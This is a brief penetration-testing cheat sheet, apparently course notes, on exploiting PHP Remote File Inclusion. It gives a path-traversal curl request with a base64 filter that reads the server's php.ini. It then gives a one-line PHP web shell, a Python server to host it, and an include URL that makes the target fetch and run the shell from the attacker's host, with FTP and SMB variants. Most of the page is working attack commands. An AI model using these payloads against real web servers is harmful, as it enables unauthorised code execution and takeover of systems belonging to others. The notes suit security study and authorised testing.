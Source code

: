 # Remote File Inclusion (RFI)

## **Introduction**

> * RFI is basically an LFI which also allows **inclusion of remote URLs** in order to **include remote files**
> * The objectives are to **enumerate local ports and web application through SSRF vulnerabilities** or Gaining RCE by \*\*including a malicious script that we host on our server \*\*
> * Almost any RFI vulnerability is also an LFI vulnerability (by including a local URL rather than a remote URL)

***

## **Enumerate RFI Vulnerabilities**

1. Check if `allow_url_include` is enabled:
   * To do so, you need to read the PHP configuration file found at
   * (`/etc/php/X.Y/apache2/php.ini`) for Apache
   * (`/etc/php/X.Y/fpm/php.ini`) for Nginx,
   * where `X.Y` is your install PHP version
2. Read the PHP Configuration File using the base64 filter (to ensure everything is read properly)
   * `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`
3. Check if the option is set to ON: `echo 'BASE64VALUE' | base64 -d | grep allow_url_include`
4. This may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with.
5. Try to include a URL, starting with a local url like `http://127.0.0.1:80/index.php` then, if that works, include a remote URL

***

## **Remote Code Execution from RFI**

Follow these steps:

1. Write the webshell payload file: `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
2. Start a webserver: `sudo python3 -m http.server <LISTENING_PORT>`
3. Use RFI to gain RCE: `http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`
4. The same thing can be done by starting a local `FTP` or `SMB` server and using `ftp://<OUR_IP>/shell.php&cmd=id` or `\\<OUR_IP>\share\shell.php`
